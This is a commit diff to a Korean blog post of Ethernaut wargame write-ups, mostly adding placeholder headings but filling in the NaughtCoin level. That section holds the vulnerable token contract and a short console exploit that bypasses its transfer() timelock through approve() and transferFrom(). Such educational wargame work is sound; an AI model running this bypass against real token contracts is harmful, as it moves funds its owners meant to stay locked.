

Before and after one commit to ms-axd/ms-axd.github.io, a Jekyll site: the page built from _posts/2026-06-03-ethernaut.md, in a window 1280 px wide and 900 px high, scrolled down 664 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
ethernaut

````diff
--- a/_posts/2026-06-03-ethernaut.md
+++ b/_posts/2026-06-03-ethernaut.md
@@ -27,6 +27,10 @@
 - `contract` 인스턴스 호출
 - `await` 기반 트랜잭션 확인
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 개발자 도구 콘솔에서 Ethernaut이 제공하는 전역 객체를 확인한다.
@@ -81,7 +85,7 @@
 - 소액 기여 조건
 - 컨트랙트 소유권 변경
 
-### 소스 코드
+### 소스코드
 
 ```solidity
 // SPDX-License-Identifier: MIT
@@ -258,7 +267,7 @@
 - `blockhash`
 - 예측 가능한 상태값
 
-### 소스 코드
+### 소스코드
 
 ```solidity
 // SPDX-License-Identifier: MIT
@@ -384,7 +393,7 @@
 - `msg.sender`
 - 피싱형 호출 구조
 
-### 소스 코드
+### 소스코드
 
 ```solidity
 // SPDX-License-Identifier: MIT
@@ -485,7 +494,7 @@
 - Solidity 0.8 이전 산술
 - 잔액 검증
 
-### 소스 코드
+### 소스코드
 
 ```solidity
 // SPDX-License-Identifier: MIT
@@ -571,7 +580,7 @@
 - 스토리지 컨텍스트
 - 함수 selector
 
-### 소스 코드
+### 소스코드
 
 ```solidity
 // SPDX-License-Identifier: MIT
@@ -666,7 +675,7 @@
 - 강제 ETH 전송
 - `receive` 없는 컨트랙트
 
-### 소스 코드
+### 소스코드
 
 ```solidity
 // SPDX-License-Identifier: MIT
@@ -747,7 +756,7 @@
 - 스토리지 슬롯 조회
 - 온체인 데이터 공개성
 
-### 소스 코드
+### 소스코드
 
 ```solidity
 // SPDX-License-Identifier: MIT
@@ -824,7 +833,7 @@
 - ETH 수신 거부
 - `transfer` 실패 처리
 
-### 소스 코드
+### 소스코드
 
 ```solidity
 // SPDX-License-Identifier: MIT
@@ -933,7 +942,7 @@
 - Checks-Effects-Interactions
 - 출금 로직 순서
 
-### 소스 코드
+### 소스코드
 
 ```solidity
 // SPDX-License-Identifier: MIT
@@ -1069,7 +1078,7 @@
 - 상태 변화 기반 응답
 - 외부 컨트랙트 호출
 
-### 소스 코드
+### 소스코드
 
 ```solidity
 // SPDX-License-Identifier: MIT
@@ -1183,7 +1192,7 @@
 - packing
 - bytes 캐스팅
 
-### 소스 코드
+### 소스코드
 
 ```solidity
 // SPDX-License-Identifier: MIT
@@ -1278,7 +1287,7 @@
 - gas 조절
 - bytes 변환 조건
 
-### 소스 코드
+### 소스코드
 
 ```solidity
 // SPDX-License-Identifier: MIT
@@ -1418,7 +1427,7 @@
 - XOR 조건
 - `extcodesize`
 
-### 소스 코드
+### 소스코드
 
 ```solidity
 // SPDX-License-Identifier: MIT
@@ -1541,7 +1550,7 @@
 
 ### 문제 요약
 
-작성 예정.
+보유한 NaughtCoin 전량을 다른 주소로 옮기면 클리어된다. `transfer()`는 timelock에 막혀 있지만 ERC-20의 `approve()`와 `transferFrom()`은 막혀 있지 않다.
 
 ### 핵심
 
@@ -1549,19 +1558,111 @@
 - `transferFrom`
 - 제한 함수 우회
 
-### 풀이
-
-작성 예정.
-
-### 공격 코드
-
-```javascript
-// 작성 예정
-```
-
-### 정리
-
-작성 예정.
+### 소스코드
+
+```solidity
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.8.0;
+
+import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
+
+contract NaughtCoin is ERC20 {
+    // string public constant name = 'NaughtCoin';
+    // string public constant symbol = '0x0';
+    // uint public constant decimals = 18;
+    uint256 public timeLock = block.timestamp + 10 * 365 days;
+    uint256 public INITIAL_SUPPLY;
+    address public player;
+
+    constructor(address _player) ERC20("NaughtCoin", "0x0") {
+        player = _player;
+        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
+        // _totalSupply = INITIAL_SUPPLY;
+        // _balances[player] = INITIAL_SUPPLY;
+        _mint(player, INITIAL_SUPPLY);
+        emit Transfer(address(0), player, INITIAL_SUPPLY);
+    }
+
+    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
+        super.transfer(_to, _value);
+    }
+
+    // Prevent the initial owner from transferring tokens until the timelock has passed
+    modifier lockTokens() {
+        if (msg.sender == player) {
+            require(block.timestamp > timeLock);
+            _;
+        } else {
+            _;
+        }
+    }
+}
+```
+
+### 풀이
+
+초기 토큰은 생성자에서 `player`에게 전부 발행된다.
+
+```solidity
+player = _player;
+INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
+_mint(player, INITIAL_SUPPLY);
+```
+
+이전 ERC-20 구현처럼 `_totalSupply`, `_balances`를 직접 만지는 코드는 주석 처리되어 있고, 현재 코드는 OpenZeppelin ERC-20의 `_mint()`를 사용한다.
+
+전송 제한은 오버라이드한 `transfer()`에만 걸려 있다.
+
+```solidity
+function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
+    return super.transfer(_to, _value);
+}
+```
+
+`lockTokens`는 `msg.sender == player`일 때만 시간 제한을 검사한다.
+
+```solidity
+if (msg.sender == player) {
+    require(block.timestamp > timeLock);
+    _;
+} else {
+    _;
+}
+```
+
+즉 `player`가 직접 `transfer()`를 호출하면 10년이 지나기 전까지 막힌다.
+
+하지만 이 컨트랙트는 ERC-20을 상속한다. ERC-20에는 토큰 소유자가 spender에게 권한을 주는 `approve()`와, spender가 대신 토큰을 옮기는 `transferFrom()`이 있다.
+
+중요한 점은 현재 소스 코드가 `transfer()`만 오버라이드했다는 것이다. `transferFrom()`은 오버라이드하지 않았고 `lockTokens`도 붙어 있지 않다.
+
+그래서 다음 순서로 우회한다.
+
+1. 내 주소가 내 토큰 전량을 사용할 수 있게 `approve(player, balance)`를 호출한다.
+2. `transferFrom(player, recipient, balance)`로 전량을 다른 주소로 보낸다.
+
+중요한 점은 `transfer()`를 호출하지 않는다는 것이다.
+
+### 공격 코드
+
+```javascript
+const balance = await contract.balanceOf(player);
+const recipient = "0x0000000000000000000000000000000000000001";
+
+await contract.approve(player, balance);
+await contract.transferFrom(player, recipient, balance);
+
+await contract.balanceOf(player);
+```
+
+- `balanceOf(player)`: 옮길 전체 잔액을 확인한다.
+- `approve(player, balance)`: 내 주소가 내 토큰을 대신 사용할 수 있게 허용한다.
+- `transferFrom(player, recipient, balance)`: `transfer()`가 아니라 `transferFrom()`으로 전량 이동한다.
+- 마지막 `balanceOf(player)`: `0`이면 성공이다.
+
+### 정리
+
+함수 하나에만 제한을 걸면 같은 효과를 내는 다른 경로로 우회할 수 있다. ERC-20에서는 `transfer()`뿐 아니라 `transferFrom()` 경로까지 함께 고려해야 한다.
 
 </section>
 <section class="ethernaut-page" data-ethernaut-page data-level-title="Preservation" markdown="1">
@@ -1578,6 +1679,10 @@
 - 스토리지 슬롯 충돌
 - 라이브러리 주소 변조
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1607,6 +1712,10 @@
 - nonce
 - 잃어버린 인스턴스 복구
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1636,6 +1745,10 @@
 - 런타임 코드
 - 최소 컨트랙트
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1665,6 +1778,10 @@
 - 스토리지 슬롯 계산
 - owner 슬롯 덮어쓰기
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1694,6 +1811,10 @@
 - 외부 호출 실패
 - 서비스 거부
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1723,6 +1844,10 @@
 - 상태 기반 가격 조작
 - 인터페이스 응답 변경
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1752,6 +1877,10 @@
 - 유동성 고갈
 - 슬리피지 검증 부재
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1781,6 +1910,10 @@
 - 가짜 토큰
 - 비정상 교환 경로
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1810,6 +1943,10 @@
 - multicall
 - 잔액 중복 반영
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1839,6 +1976,10 @@
 - 초기화 누락
 - implementation 파괴
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1868,6 +2009,10 @@
 - Forta bot
 - 탐지 로직 작성
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1897,6 +2042,10 @@
 - 예외 기반 분기
 - 악성 receiver
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1926,6 +2075,10 @@
 - owner 조건
 - ETH 전송 실패 유도
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1955,6 +2108,10 @@
 - offset 조작
 - selector 검증 우회
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -1984,6 +2141,10 @@
 - calldata 직접 구성
 - 짧은 타입 우회
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -2013,6 +2174,10 @@
 - 상태 불일치
 - staking 조건 검증
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -2042,6 +2207,10 @@
 - ECDSA
 - 신원 위장
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -2069,6 +2238,10 @@
 
 - 작성 예정
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -2096,6 +2269,10 @@
 
 - 작성 예정
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -2123,6 +2300,10 @@
 
 - 작성 예정
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -2150,6 +2331,10 @@
 
 - 작성 예정
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -2177,6 +2362,10 @@
 
 - 작성 예정
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -2204,6 +2393,10 @@
 
 - 작성 예정
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -2231,6 +2424,10 @@
 
 - 작성 예정
 
+### 소스코드
+
+작성 예정.
+
 ### 풀이
 
 작성 예정.
@@ -2257,6 +2454,10 @@
 ### 핵심
 
 - 작성 예정
+
+### 소스코드
+
+작성 예정.
 
 ### 풀이
 
````
Also changed, not shown: other parts of _posts/2026-06-03-ethernaut.md (+12 -7 lines).
